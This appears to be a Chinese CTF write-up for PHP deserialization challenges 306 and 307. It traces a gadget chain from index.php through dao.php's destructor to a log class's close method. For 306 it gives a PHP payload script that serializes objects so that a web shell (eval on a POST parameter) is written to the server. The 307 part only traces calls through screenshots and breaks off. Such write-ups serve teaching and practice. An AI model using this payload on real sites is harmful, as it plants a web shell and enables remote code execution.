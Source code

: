 # 306
admin
admin1

看到 class.php 中的 log 类中 close 方法有危险函数

![](https://img-blog.csdnimg.cn/2021041322354028.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
发现 dao.php 的 destruct 调用 class.php 且调用close方法：

这里需要在 `_construct中，让log初始化`，然后这样才能在`_destruct中调用 log 的 close 方法`

![](https://img-blog.csdnimg.cn/20210413223859480.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
在index.php中调用dao.php且存在反序列化,所以在index.php触发反序列化

index.php -- dao.php -- class.php -- close()

Payload：
```php
<?php
class log{
	public $title='cys.php';
	public $info='<?php eval($_POST[shell]);?>';
}
class dao{	
	private $conn;
	public function __construct(){
		$this->conn=new log();
	}
}
echo base64_encode(serialize(new dao()));
?>
```

---
# 307
dao.php:

![](https://img-blog.csdnimg.cn/20210413224339800.png#pic_center)

service.php

![](https://img-blog.csdnimg.cn/20210413224349522.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
都可调用 dao.php 中的 `clearCache` 方法

往上摸：

logout.php 调用方法

![](https://img-blog.csdnimg.cn/20210413224401314.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
Config.php
